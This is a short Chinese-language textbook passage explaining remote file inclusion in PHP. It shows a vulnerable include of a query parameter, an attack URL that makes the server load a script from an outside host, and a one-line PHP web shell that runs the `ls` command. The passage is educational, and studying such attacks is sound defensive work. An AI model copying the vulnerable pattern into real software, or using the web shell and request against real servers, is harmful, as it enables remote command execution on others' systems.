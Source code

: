 远程文件包含漏洞（ Remote File Inclusion）是指当部分脚本内容需要从其他文件读入时， 攻击者利用指定外部服务器的 URL 充当依赖文件，让脚本读取之后，就可运行任意脚本的一种攻击。

### 远程文件包含漏洞的攻击案例  

下面以 include 读入由查询字段指定文件的功能为例，讲解远程文件包含漏洞。 该功能可通过以下查询字段形式指定文件名，并在脚本内的 include 语句处读入这个指定文件：

```
http://example.com/foo.php?mod=news.php
```

对应脚本的源代码如下所示：

```
$modname = $_GET['mod'];
include($modname);
```

攻击者指定如同下面形式的 URL 发出请求：

```
http://example.com/foo.php?mod=http://hackr.jp/cmd.php&cmd=ls
```

攻击者已事先在外部服务器上准备了以下这段脚本：

```
<? system($_GET['cmd']) ?>
```

假设 Web 服务器（ example.com）的 include 可以引入外部服务器的 URL，那就会读入攻击者在外部服务器上事先准备的 URL（ http://hackr.jp/cmd.php）。 结 果， 通 过 system 函 数 就 能 在 Web 服 务 器（ example.com）上执行查询字段指定的 OS 命令了。

![](./img/remote_file_injection.png)

在以上攻击案例中，执行了可显示 Web 服务器（ example.com）上文件及目录信息的 ls 命令。  

# 因设置或设计上的缺陷引发的安全漏洞  
